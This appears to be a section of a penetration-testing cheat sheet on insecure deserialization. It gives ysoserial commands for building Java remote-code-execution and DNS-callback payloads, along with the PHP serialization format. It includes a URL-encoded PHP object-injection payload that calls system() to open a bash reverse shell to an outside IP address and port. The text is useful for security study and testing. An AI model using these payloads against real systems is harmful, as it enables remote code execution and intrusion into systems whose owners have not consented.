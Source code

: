### Serialization

#### java

Usualy java serialized objects start with **ac ed 00 05** or in base64 encoding **rO0aB**

<https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet>

ysoserial:

<https://github.com/frohoff/ysoserial>

java -jar ysoserial-all.jar [payload] '[command]'

java -cp ysoserial-all.jar ysoserial.exploit.JSF

Create serialized object to do RCE

java -jar ysoserial-all.jar CommonsCollections1 'whoami' > test.bin

Create serialized object to do DNS query:

java -jar ysoserial-all.jar URLDNS <http://testjbjhebdkjs.com> > test.bin

getting a list with all ysoserial payloads

java -jar ysoserial-all.jar > yso 2>&1

cat yso | tr -d ' ' | cut -d '@'' -f 1 > payloads.txt

sed -i -e '1,7d' payloads.txt

#### PHP

serialized data format:
   NULL N;
   true b:1;
   false b:0;
   42 i:42;
   42.3789 d:42.378900000000002;
            "Precision controlled by serialize_precision ini setting (default 17)",
   \"abcd\" s:4:\"abcd\";
   resource i:0;
   [10, 11, 12] a:3:{i:0;i:10;i:1;i:11;i:2;i:12;}

PHP function to serialize and unserialize data:

```php
$string = serialize($myvar);
$backtomyvar = unserialize($string);
var_dump($backtomyvar);

# if contains special character URL encode payload
# example of bash reverse shell
# O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A71%3A%22system%28%27%2Fbin%2Fbash+-c+%5C%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.104.25.2%2F54321+0%3E%261%5C%27%27%29%3B%22%3B%7D
```

#### .NET
